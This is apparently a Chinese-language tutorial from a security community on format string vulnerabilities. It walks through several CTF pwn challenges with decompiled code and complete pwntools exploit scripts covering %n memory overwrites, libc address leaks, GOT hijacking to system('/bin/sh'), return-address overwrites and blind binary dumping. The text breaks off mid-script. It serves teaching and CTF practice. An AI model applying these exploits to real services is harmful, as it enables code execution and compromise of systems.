


# 格式化字符串详解 - 先知社区

格式化字符串详解

* * *

# 前言

掌握了栈溢出之后，我们将开始学习格式化字符串漏洞，希望接下来我的学习过程以及讲解对于你们有帮助。

## 基础知识

这里我结合ctfwiki上的基础知识，并且结合我的理解，让和我一样的学习者更加容易理解。

### 函数介绍

格式化字符串函数可以接受可变数量的参数，并将**第一个参数作为格式化字符串，根据其来解析之后的参数**。几乎所有的 C/C++ 程序都会利用格式化字符串函数来**输出信息，调试程序，或者处理字符串**。

一般来说，格式化字符串在利用的时候主要分为三个部分

*   格式化字符串函数
*   格式化字符串
*   后续参数，**可选**

这里拿printf()举例，[C 库函数 – printf() | 菜鸟教程 (runoob.com)](https://www.runoob.com/cprogramming/c-function-printf.html)，在边阅读printf()的用法时，可以结合下面图片结合理解。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223702-8f4b282e-2578-1.png)

### 常见的格式化字符串函数

#### 输入

*   scanf

#### 输出

| 函数  | 基本介绍 |
| --- | --- |
| printf | 输出到 stdout |
| fprintf | 输出到指定 FILE 流 |
| vprintf | 根据参数列表格式化输出到 stdout |
| vfprintf | 根据参数列表格式化输出到指定 FILE 流 |
| sprintf | 输出到字符串 |
| snprintf | 输出指定字节数到字符串 |
| vsprintf | 根据参数列表格式化输出到字符串 |
| vsnprintf | 根据参数列表格式化输出指定字节到字符串 |
| setproctitle | 设置 argv |
| syslog | 输出日志 |
| err, verr, warn, vwarn 等 | ......... |

### 格式化字符串

基本格式如下

```plain
%[parameter][flags][field width][.precision][length]type
```

这里每一个pattren的含义参考[格式化字符串 - 维基百科，自由的百科全书 (wikipedia.org)](https://zh.wikipedia.org/wiki/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2)

以printf()为例，这里我就说明一下常见的格式化字符串的含义

例如

```plain
printf("%s",padding)
```

*   %p:直接打印栈上的数据
*   %s:把栈上的数据作为地址解析，打印地址解析的数据
*   %x 以十六进制打印，只能打印4字节，一般只用于32位
*   %c 打印单个字符
*   %hhn 写一字节
*   %hn 写两字节
*   %n 把已经成功输出的字符个数写入对应的整型指针参数所指的变量。将栈上的内容作为地址解析，然后改变这个地址上的内容，写四字节
*   %ln 32位写四字节，64位写八字节
*   %lln 写八字节
*   %d,%i有符号十进制数值`int`'`%d`'与'`%i`'对于输出是同义；但对于`scanf()`输入二者不同，其中`%i`在输入值有前缀`0x`或0时，分别表示16进制或8进制的值。如果指定了精度，则输出的数字不足时在左侧补0。默认精度为1。精度为0且值为0，则输出为空。

### 漏洞原理

这里我就不写上ctfwiki上的讲解了，我用我自己的理解描述一下

格式化字符串漏洞的成因在于像printf/sprintf/snprintf等格式化打印函数都是接受可变参数的，而一旦程序编写不规范，比如正确的写法是：`printf("%s", pad)`，偷懒写成了：`printf(pad)`，此时就存在格式化字符串漏洞。

最简单的实例代码演示

```plain
#include <stdio.h>

int main()
{
    char pad[100];
    scanf("%s", pad);
    printf(pad);

    return 0;
}
```

gcc编译一下32位程序

```plain
gcc fmt.c -o fmt -m32
```

直接测试一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223717-9804c402-2578-1.png)

gdb动调一下，看一下漏洞实现的流程

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223734-a215ca22-2578-1.png)

可以发现，格式化参数`%p`会从栈顶指针+0x4的位置开始打印出栈上的数据

这里解释一下为什么printf会这么打印我们输入的字符串

正常来说，printf的用法如下

```plain
printf("%s", pad)
```

但是我们这里直接省略了pad，只有格式化字符串，因为printf为可变参数，32位linux系统下是用栈传递参数，栈顶指针esp是第一个参数，此时printf就会打印该字符串，如果进一步遇到格式化符号，比如这里的%p，那么就会以十六进制的方式打印第二个参数，但我们并没有传递第二个参数，所以系统还是将esp+0x4的位置当作第二个参数打印了，以此类推。

## 漏洞利用

这里我将结合几个最简单的格式化字符串的题目，讲解一下格式化字符串有哪几种漏洞利用方式。

#### fmtstr1

##### 覆盖内存(32位的格式化字符串)

前期准备工作

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223740-a5f17060-2578-1.png)

进行IDA静态分析

**main**

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp-60h] [ebp-60h]
  unsigned int v5; // [esp-10h] [ebp-10h]

  v5 = __readgsdword(0x14u);
  be_nice_to_people();
  memset(&v4, 0, 0x50u);
  read(0, &v4, 0x50u);
  printf((const char *)&v4);
  printf("%d!\n", x);
  if ( x == 4 )
  {
    puts("running sh...");
    system("/bin/sh");
  }
  return 0;
}
```

分析一下，其实逻辑很简单，就是如果让x为4，程序自己就会进行getshell

其实就是写入4字节的数据

看一下x在程序的哪个字段

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223746-a9a209a4-2578-1.png)

```plain
x_addr=0804A02C
```

现在我们x字段的地址知道了，我们可以利用%n将原有的x内容修改为自己想要的，现在就是看找哪一个格式化字符串参数是写在栈上的

gdb动调一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223751-ac9ab46c-2578-1.png)

第一个方框里面是printf()的第一个参数

下面的方框是格式化字符串的参数，可以看到第11个参数在栈上写入了我们输入的字符串，所以我们也就知道了要修改哪个地方的内容了

exp：

```plain
from pwn import *
context(os='linux',arch='i386',log_level='debug')

io=process('./pwn')
elf=ELF('./pwn')
x_addr=0x0804A02C
payload=p32(x_addr)+b"%11$n"
io.sendline(payload)
io.interactive()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223758-b0847d1a-2578-1.png)

#### fmtstr2

##### 泄露栈内存(64位的格式化字符串)

前期准备工作

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223802-b2de732c-2578-1.png)

IDA静态分析

**main**

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+3h] [rbp-3Dh]
  int i; // [rsp+4h] [rbp-3Ch]
  int j; // [rsp+4h] [rbp-3Ch]
  char *format; // [rsp+8h] [rbp-38h] BYREF
  _IO_FILE *fp; // [rsp+10h] [rbp-30h]
  char *v9; // [rsp+18h] [rbp-28h]
  char v10[24]; // [rsp+20h] [rbp-20h] BYREF
  unsigned __int64 v11; // [rsp+38h] [rbp-8h]

  v11 = __readfsqword(0x28u);
  fp = fopen("flag.txt", "r");
  for ( i = 0; i <= 21; ++i )
    v10[i] = _IO_getc(fp);
  fclose(fp);
  v9 = v10;
  puts("what's the flag");
  fflush(_bss_start);
  format = 0LL;
  __isoc99_scanf("%ms", &format);
  for ( j = 0; j <= 21; ++j )
  {
    v4 = format[j];
    if ( !v4 || v10[j] != v4 )
    {
      puts("You answered:");
      printf(format);
      puts("\nBut that was totally wrong lol get rekt");
      fflush(_bss_start);
      return 0;
    }
  }
  printf("That's right, the flag is %s\n", v9);
  fflush(_bss_start);
  return 0;
}
```

这个逻辑相比与上一道题确实复杂了，但是有一定C语言或者其他语言的基础的话，其实也能明白这里的逻辑。

就是要让我们提交flag，如果正确则回显flag(感觉非常矛盾)，否则就是进入提示错误。

这里有一个格式化字符串漏洞点，然而这题跟上一题思路又不一样，这题是已经告诉你flag了，所以我们需要利用%s让其地址上的内容经过解析显示即可。

现在思路有了,gdb动调看一下

这里我们在scanf打下断点

```plain
b *0x400840
```

输入字符之后步过到printf，看一下栈的情况

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223810-b8144e16-2578-1.png)

这里可以对比一下第一道格式化字符串例题，发现情况不同了，这其实也牵扯到了64位函数调用栈的结构

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223815-bad1ca02-2578-1.png)

64位的前6个参数存储在寄存器中，顺序为rdi,rsi,rdx,rcx,r8.r9，但是由于ASLR的开启

我们是不知道第7个参数到底在哪里的，我们可以多写几个参数进行与栈上比对

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223820-bdc19d8c-2578-1.png)

可以看到前2个参数的地址一眼不是栈上的，而第3个是0x7ff开头的，所以是栈上的地址

其实也可以进行动调， x64 前 6 个参数存在寄存器上面，而第一个参数又是格式化字符串，所以这实际上就是第 5+4=9 个参数，所以 payload 就写 %9$s

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223824-c0225b3e-2578-1.png)

exp:

```plain
from pwn import *
context(os='linux',arch='amd64',log_level='debug')

io=process('./pwn')
elf=ELF('./pwn')
io.recvuntil(b"flag")
payload="%9$s"
io.sendline(payload)
io.interactive()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223829-c33a66d6-2578-1.png)

#### fmstr3

##### libc泄露&劫持GOT

前期准备工作

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223833-c59f9c70-2578-1.png)

IDA静态分析一下

**main()**

```plain
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char s1; // [esp+14h] [ebp-2Ch]
  int v5; // [esp+3Ch] [ebp-4h]

  setbuf(stdout, 0);
  ask_username(&s1);
  ask_password(&s1);
  while ( 1 )
  {
    while ( 1 )
    {
      print_prompt();
      v3 = get_command();
      v5 = v3;
      if ( v3 != 2 )
        break;
      put_file();
    }
    if ( v3 == 3 )
    {
      show_dir();
    }
    else
    {
      if ( v3 != 1 )
        exit(1);
      get_file();
    }
  }
}
```

逆向分析一下main()函数的逻辑，

首先是设立了一个缓冲区，然后之后调用的**ask\_username()**,**ask\_password()**函数都共用**同一块**缓冲区

之后是一个无线循环，首先输出**print\_prompt()**，然后用v3存储用户输入的结果，之后传递到v5，根据用户的输入值分别调用put\_file()、show\_dir()、exit(1)、get\_file()函数

这里的漏洞点在**get\_file()**

```plain
int get_file()
{
  char dest; // [esp+1Ch] [ebp-FCh]
  char s1; // [esp+E4h] [ebp-34h]
  char *i; // [esp+10Ch] [ebp-Ch]

  printf("enter the file name you want to get:");
  __isoc99_scanf("%40s", &s1);
  if ( !strncmp(&s1, "flag", 4u) )
    puts("too young, too simple");
  for ( i = (char *)file_head; i; i = (char *)*((_DWORD *)i + 60) )
  {
    if ( !strcmp(i, &s1) )
    {
      strcpy(&dest, i + 40);
      return printf(&dest);
    }
  }
  return printf(&dest);
}
```

这里就是一个用户输入文件名，然后程序从链栈中进行查找，如果文件名字相同，则输出文件内容(除了flag)

这里需要主要一下printf()是直接打印出地址所指向的内容，所以存在**格式化字符串漏洞**

**ask\_username()**

```plain
char *__cdecl ask_username(char *dest)
{
  char src[40]; // [esp+14h] [ebp-34h]
  int i; // [esp+3Ch] [ebp-Ch]

  puts("Connected to ftp.hacker.server");
  puts("220 Serv-U FTP Server v6.4 for WinSock ready...");
  printf("Name (ftp.hacker.server:Rainism):");
  __isoc99_scanf("%40s", src);
  for ( i = 0; i <= 39 && src[i]; ++i )
    ++src[i];
  return strcpy(dest, src);
}
```

这个函数的逻辑就是，先定义了一块40个字节的缓冲区，将输入的字符依次加1，然后传给dest

(这里顺便讲解下午name:rxraclhm，根据逻辑是要字符串依次加一，所以我们都减一输入)

**ask\_password()**

```plain
int __cdecl ask_password(char *s1)
{
  if ( strcmp(s1, "sysbdmin") )
  {
    puts("who you are?");
    exit(1);
  }
  return puts("welcome!");
}
```

这里就是将用户传入的用户名与sysbdmin进行对比是否相等，如果相等则进入main之后的内容

**get\_command()**

```plain
signed int get_command()
{
  char s1; // [esp+1Ch] [ebp-Ch]

  __isoc99_scanf("%3s", &s1);
  if ( !strncmp(&s1, "get", 3u) )
    return 1;
  if ( !strncmp(&s1, "put", 3u) )
    return 2;
  if ( !strncmp(&s1, "dir", 3u) )
    return 3;
  return 4;
}
```

这里使用strncmp()设定了3个有效命令，get,put,dir

**put\_file()**

```plain
_DWORD *put_file()
{
  _DWORD *v0; // ST1C_4
  _DWORD *result; // eax

  v0 = malloc(0xF4u);
  printf("please enter the name of the file you want to upload:");
  get_input(v0, 40, 1);
  printf("then, enter the content:");
  get_input(v0 + 10, 200, 1);
  v0[60] = file_head;
  result = v0;
  file_head = (int)v0;
  return result;
}
```

**get\_input()**

```plain
signed int __cdecl get_input(int a1, int a2, int a3)
{
  signed int result; // eax
  _BYTE *v4; // [esp+18h] [ebp-10h]
  int v5; // [esp+1Ch] [ebp-Ch]

  v5 = 0;
  while ( 1 )
  {
    v4 = (_BYTE *)(v5 + a1);
    result = fread((void *)(v5 + a1), 1u, 1u, stdin);
    if ( result <= 0 )
      break;
    if ( *v4 == 10 && a3 )
    {
      if ( v5 )
      {
        result = v5 + a1;
        *v4 = 0;
        return result;
      }
    }
    else
    {
      result = ++v5;
      if ( v5 >= a2 )
        return result;
    }
  }
  return result;
}
```

这两个函数一起解释，使用malloc()申请调用0xf4(244)个字节大小的空间，通过对于get\_input()函数的分析，第一个参数是输入写入的起始地址，第二个参数是最大字节数，所以每一次调用put\_file()函数，前40个字节是用来存放文件名的，然后200个字节是用来存放内容的，最后4字节是用来保存上一块空间的地址

**show\_dir()**

```plain
int show_dir()
{
  int v0; // eax
  char s[1024]; // [esp+14h] [ebp-414h]
  int i; // [esp+414h] [ebp-14h]
  int j; // [esp+418h] [ebp-10h]
  int v5; // [esp+41Ch] [ebp-Ch]

  v5 = 0;
  j = 0;
  bzero(s, 0x400u);
  for ( i = file_head; i; i = *(_DWORD *)(i + 240) )
  {
    for ( j = 0; *(_BYTE *)(i + j); ++j )
    {
      v0 = v5++;
      s[v0] = *(_BYTE *)(i + j);
    }
  }
  return puts(s);
}
```

使用一个循环遍历上面得到的file\_head，然后利用bzero()函数，将s设定为一个0x400的缓冲区，将内容传入缓冲区中，利用puts()函数输出结果

gdb动调

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223900-d5b3e1e8-2578-1.png)

**exp1:**

```plain
from pwn import *
p = process('./pwn3')
context.log_level='debug'
context.arch='i386'

elf = ELF('./pwn3')
libc = ELF('./libc.so')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
#sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

r
sla(":",'rxraclhm')
pause()
ru("ftp>")
puts=elf.got['puts']
puts_libc=libc.symbols['puts']
def name_content(x,y):
    p.sendline('put')
    r
    p.sendline(x)
    r
    p.sendline(y)
    r
    p.sendline('get')
    r
    p.sendline(x)
    r
name_content("puts",b'%8$s'+p32(elf.got['puts']))
r
puts_addr=l32
#0x804a028
leak('puts',puts)
pause()

libcbase=0x804a028-puts_libc

leak('libcbase',libcbase)

system_addr=libcbase+libc.symbols['system']
binsh_addr=libcbase+next(libc.search(b'/bin/sh\00'))

name_content("ebp",b'a %70$d') #%70$d a 0x7f4fd52ae5e0 0x7f9e30b055e0


tmp = p.recv()
#print(tmp)
ebp = int(tmp.split(b'a ')[1].rstrip(b'ftp>'))
print(ebp)


esp = (ebp & 0x0FFFFFFF0) - 0x40


payload = fmtstr_payload(7, {esp+4: binsh_addr})
name_content('binsh', payload)
r

payload = fmtstr_payload(7, {esp-4: system_addr})
name_content('system', payload)
r

p.interactive()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223909-daded862-2578-1.png)

我会从5部分讲解我的exp

*   第一部分，这里是根据题目的逻辑，既然只有get,dir,put能使用，我们是不是可以自己创建文件，写入内容，然后再调用其名字获取内容呢

显然是可以的

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223914-dde0e870-2578-1.png)

*   第二部分，这里是通过gdb动调，按照上面结果其实是距离esp第7个参数的地址，但是我们在之后又传入了puts的got表，程序为小端序，相当于多传入了一个参数，所以泄露的地址要太高一个字长，所以第8个参数才是到了栈上。
*   第三部分，这里我是用IDA看get\_file这一部分的汇编语言分析的，

我们知道，在esp没有被下移的时候，esp中存储着main函数的ebp，现在下移了，我们是不是可以通过这一部分下移的距离泄露获取ebp的地址呢

```plain
0x118=280
280//4=70
```

所以我们第70个参数是ebp的地址

(这里我前面加上a 是为了之后对于这ebp地址的提取)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223920-e15b54b8-2578-1.png)

*   第四部分，现在我们已经有了ebp的真实地址了，现在就是要找到esp的地址了，这里我是看的main函数的汇编语言，

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223924-e3a1d094-2578-1.png)

这里前面进行了一个赋值处理，对于esp进行了一个逻辑与运算，之后又进行下移0x40的距离

*   第五部分，这里是利用了一个pwntools中fmtstr\_payload()的用法，这里我要说明一下用法

```plain
fmtstr_payload(偏移,{原地址:目标地址})
```

对于这里为什么写入esp+4,esp-4，我是这么理解的，要首先了解x86架构下32位ret2libc的内存

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223928-e6442fb8-2578-1.png)

esp中存储着main()的ebp，我们如果要写入函数以及参数并且调用，可以写入esp+4,esp-4，也就是前后各一位，这样的话预留返回地址就是main(),栈会立即进行调用

**exp2:**

```plain
from pwn import *
p = process('./pwn3')
context.log_level='debug'
context.arch='i386'

elf = ELF('./pwn3')
libc = ELF('./libc.so')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def put(x,y):
    sl('put')
    ru(":")
    sl(x)
    ru(":")
    sl(y)
def get(z):
    sl('get')
    ru(":")
    sl(z)
r
sla(":",'rxraclhm')
pause()
ru("ftp>")
puts=elf.got['puts']
puts_libc=libc.symbols['puts']

r
puts_addr=l32
puts_real=0x804a028
#0x804a028
leak('puts',puts)
pause()

libcbase=0x804a028-puts_libc

leak('libcbase',libcbase)

system_addr=libcbase+libc.symbols['system']

payload = fmtstr_payload(7, {puts:system_addr})
put('/bin/sh', payload)
get('/bin/sh')

p.sendline('dir')
p.interactive()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223935-eab0d448-2578-1.png)

这里我从三部分讲解

*   第一部分，定义函数，这跟上面同理，只不过为了方便我拆开了
*   第二部分，这里是将puts\_got换为了system的地址，这样是如果程序运行起来，会将程序中的puts的函数调用替换为了system
*   第三部分，这是最为重要的一部分，看一下IDA反编译的show\_dir()

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223940-ed7b5856-2578-1.png)

最后这里执行了一个puts()，如果我们替换了puts为system，然后内容写上/bin/sh，是不是直接getshell了呢

PS:对于get\_file我也有这样替换printf的地址的想法，但是觉得有些麻烦，师傅们可以尝试一下看一下这个思路可以吗

#### fmstr4

##### 劫持ret\_addr

**file&checksec**

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223945-f08fabd2-2578-1.png)

64位程序，而且开启了full relro以及Nx保护,这样的话远程是有ASLR保护的，而且got表不能进行修改了

**IDA静态分析一下**(这里我为了方便做题，将一些函数进行了相应名字的修改)

大致就是一个注册登录的程序，输入1就是展示账户信息，输入2就是修改账户信息，输入3是退出程序

**漏洞函数**

```plain
int __fastcall loudong(int a1, int a2, int a3, int a4, int a5, int a6, __int64 format, int a8, __int64 a9)
{
  write(0, "Welc0me to sangebaimao!\n", 0x1AuLL);
  printf((const char *)&format);
  return printf((const char *)&a9 + 4);
}
```

**后门函数**

```plain
// positive sp value has been detected, the output may be wrong!
int backdoor()
{
  return system("/bin/sh");
}
```

**sub\_400903**

```plain
_QWORD *__fastcall sub_400903(
        _QWORD *a1,
        int a2,
        int a3,
        int a4,
        int a5,
        int a6,
        __int64 buf,
        __int64 a8,
        __int64 a9,
        __int64 a10,
        __int64 a11)
{
  unsigned __int8 v12; // [rsp+1Fh] [rbp-1h]

  puts("Register Account first!");
  puts("Input your username(max lenth:20): ");
  fflush(stdout);
  v12 = read(0, &buf, 0x14uLL);
  if ( v12 && v12 <= 0x14u )
  {
    puts("Input your password(max lenth:20): ");
    fflush(stdout);
    read(0, (char *)&a9 + 4, 0x14uLL);
    fflush(stdout);
    *a1 = buf;
    a1[1] = a8;
    a1[2] = a9;
    a1[3] = a10;
    a1[4] = a11;
  }
  else
  {
    LOBYTE(buf) = 48;
    puts("error lenth(username)!try again");
    fflush(stdout);
    *a1 = buf;
    a1[1] = a8;
    a1[2] = a9;
    a1[3] = a10;
    a1[4] = a11;
  }
  return a1;
}
```

这里可以看到上面漏洞函数的printf的参数其实就是我们输入的passwd，动调测试一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223954-f5eea9fc-2578-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718223958-f821f9ae-2578-1.png)

由于存在nx保护，我们是不知道写在栈上的参数具体在哪的，我们可以测试一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718224002-faaa133c-2578-1.png)

看到0x7ff开头，这种就是写在栈上的，所以我们知道要利用第6个参数了

(这里要注意一下程序是64位的，函数中前6个参数是存储在寄存器中的，我们的printf的第一个参数是格式化字符串)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718224006-fd064a06-2578-1.png)

所以我们就知道格式化字符串的偏移了(5+3=8)，这里的0x400d74是跳转的地址，然后前面的0x7fffffffde28是用来调用这个跳转地址的函数地址(其实也可以说是存储着这个跳转地址的一个地址)，由于远程默认开启aslr保护，这样的话地址就会随机，但是距离这个函数的帧顶的距离是不变的，我们可以算出这个距离值，所以如果我们知道了rbp的值，知道了偏移值，那么返回地址也就知道了

可以用下图进行理解

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718224011-ffb675dc-2578-1.png)

偏移量

```plain
0x60-0x28=56
hex(56)=0x38
```

然后我们得到真实地址之后，就可以利用2中的修改，将ret\_addr修改为后门函数地址

后门函数地址：0x4008A6

原跳转地址：0x400d74

我们现在已经控制了存储跳转地址的地址，现在只要将跳转地址给覆盖为后门函数即可，这样就可以调用存储的函数地址进而调用后门函数

我们可以利用格式化字符串的%n，这里要注意一下，%n把**已经成功输出**的字符个数写入对应的整型指针参数所指的变量，注意一下，这里我们得到的真实地址是之前不存在的，所以我们要在新的username写入ret\_addr，再利用%n可以修改ret\_addr指向空间内的值，从而修改跳转地址。

```plain
0x4008A6(hex)->0x08A6(hex)->2214(d)
```

exp:

```plain
from pwn import *
p = process('./pwn')
context.log_level='debug'
context.arch='amd64'

elf = ELF('./pwn')


p.recv()
p.sendline('a'*8)
p.recv()
#sla(":",'%5$p%6$p%7$p%8$p')
#(nil)0x7ffe256915700x400d740x2435250a61616161

p.sendline('%6$p')
p.recvuntil(">")

p.sendline("1")
p.recvuntil('\n')
tmp=p.recvuntil('\n')


ret_addr=int(tmp.decode(),16)-0x38
#leak('ret_addr',ret_addr)

p.sendline('2')
p.recv()
p.sendline(p64(ret_addr))
p.recv()
p.sendline('%2218d%8$hn')

p.recv()
p.sendline('1')
p.recv()

p.interactive()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718224018-0450253e-2579-1.png)

#### fmstr5

##### 盲打泄露栈

部署好环境之后，在自己本地9999端口起环境，尝试直接读取地址，

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718224029-0ab558f4-2579-1.png)

显然是存在格式化字符串漏洞的，直接写一个循环

```plain
from pwn import *
context.log_level = 'error'

def leak(payload):
    sh = remote('127.0.0.1', 9999)
    sh.sendline(payload)
    data = sh.recvuntil('\n', drop=True)
    if data.startswith('0x'):
        print(p64(int(data.deocde(), 16)))
    sh.close()
i = 1
while 1:
    payload = '%{}$p'.format(i)
    leak(payload)
    i += 1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718224036-0e8f2c34-2579-1.png)

#### fmstr6

##### 盲打劫持GOT

本题是在**Ubantu16.04**上进行测试的

源码

```plain
#include <stdio.h> 
#include <string.h> 
#include <unistd.h> 
int main(int argc, char *argv[])
{
    setbuf(stdin, 0LL);
    setbuf(stdout, 0LL);
    setbuf(stderr, 0LL);
    int flag;
    char buf[1024];
    FILE* f;

    puts("What's your name?");

    fgets(buf, 1024, stdin);
    printf("Hi, ");
    printf("%s",buf);
    putchar('\n');

    flag = 1;
    while (flag == 1){
        puts("Do you want the flag?");

    memset(buf,'\0',1024);
    read(STDIN_FILENO, buf, 100);
        if (!strcmp(buf, "no\n")){
            printf("I see. Good bye.");
            return 0;
        }else
    {   
        printf("Your input isn't right:");
        printf(buf);
        printf("Please Try again!\n");
    }
    fflush(stdout);
    }
    return 0;
}
```

gcc编译32位程序

```plain
gcc -z execstack -fno-stack-protector -m32 -o leakmemory leakmemory.c
```

利用socat本地起环境，真实环境就是只有一个交互环境，不给你可执行文件。

```plain
socat TCP4-LISTEN:11112,fork EXEC:./pwn
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718224042-12a5e8f8-2579-1.png)

这里经过测试，发现是**32位**程序，而且漏洞点在输入`Do you want the flag?`，格式化字符串**偏移为7**

(TIPS:32位可以先进行4字节的填充，64字节可以先进行8字节的填充，便于观察偏移量)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718224046-14a88462-2579-1.png)

```plain
aaaa->0x61616161
```

接下来就是要dump程序了

dump 程序，也就是想获取我们所给定地址的内容，而不是获取我们给定的地址。所以应该用 **%n$s** 把我们给定地址当作指针，输出给定地址所指向的字符串。结合前面知道格式化字符串偏移为 7 ，payload 应该为：`%9$s.TMP[addr]`

(这里其实和fmtstr3一样的逻辑，小端序程序，在低地址又多写入了2个参数，一个是分隔符.tmp字符串，一个是返回地址，相当于又抬高了栈，所以偏移为9)

**注意**：使用 %s 进行输出并不是一个字节一个字节输出，而是一直输出直到遇到 \\x00 截止符才会停止，也就是每次泄露的长度是不确定的，可能很长也可能是空。因为 .text 段很可能有连续 \\x00 ，所以泄露脚本处理情况有：

1.  针对每次泄露长度不等，addr 根据每次泄露长度动态增加；
2.  泄露字符串可能为空，也就是如何处理 \\x00 ；

接下来就是要泄露程序的初始地址

###### 方法一：**从程序加载地址开始**

32 位：从 0x8048000 开始泄露

64 位：从 0x400000 开始泄露

leak.py

```plain
#! /usr/bin/env python 
# -*- coding: utf-8 -*- 
from pwn import *
import binascii

r = remote('127.0.0.1',11112)

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    ret = r.recvuntil(".TMP",drop=True)
    print "ret:", binascii.hexlify(ret), len(ret)
    #使用binascii 将泄漏出来字符串每一个都从 ascii 转换为 十六进制，方便显示
    remain = r.recvrepeat(0.2)
    #r.recvrepeat(0.2) 接受返回的垃圾数据，方便下一轮的输入
    return ret

# name
r.recv()
r.sendline('nameaaa')
r.recv()

# leak
begin = 0x8048000
text_seg =''
try:
    while True:
        ret = leak(begin)
        text_seg += ret
        begin += len(ret)
        #泄漏地址动态增加，假如泄漏 1 字节就增加 1 ；泄漏 3 字节就增加 3
        if len(ret) == 0:   # nil
            begin +=1
            text_seg += '\x00'
        #处理泄漏长度为 0 ，也就是数据是 \x00 的情况。地址增加 1 ，程序数据加 \x00
except Exception as e:
    print e
finally:
    print '[+]',len(text_seg)
    with open('dump_bin','wb') as f:
        f.write(text_seg)
```

通过上述leak.py，我们可以在程序加载地址开始就泄露二进制文件，之后可以将获得的文件放入IDA

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718224053-19348e04-2579-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718224058-1bef5e30-2579-1.png)

可以对比一下我们给出的源代码，因为是盲打，不会有函数的名称，可以根据传入参数进行判断函数名称，比如 sub\_8048490 就是 printf 。

###### 方法二：**从.text段开始**

先用 %p 泄露出栈上数据，找到两个相同地址，而且这个地址很靠近程序加载初地址（32位：0x8048000；64位：0x400000）。

load.py

```plain
from pwn import *
import sys

p = remote('127.0.0.1',11112)

p.recv()
p.sendline('nameaaa')
p.recv()

def where_is_start(ret_index=null):
    return_addr=0
    for i in range(400):
        payload = '%%%d$p.TMP' % (i)
        p.sendline(payload)
        p.recvuntil('right:')
        val = p.recvuntil('.TMP')
        log.info(str(i*4)+' '+val.strip().ljust(10))
        if(i*4==ret_index):
            return_addr=int(val.strip('.TMP').ljust(10)[2:],16)
            return return_addr
        p.recvrepeat(0.2)

start_addr=where_is_start()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718224106-208d8f7a-2579-1.png)

我们在1164与1188的地方找到了加载始地址

之后把leak.py修改一下即可

```plain
#! /usr/bin/env python 
# -*- coding: utf-8 -*- 
from pwn import *
import binascii

r = remote('127.0.0.1',11112)

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    r.sendline(payload)
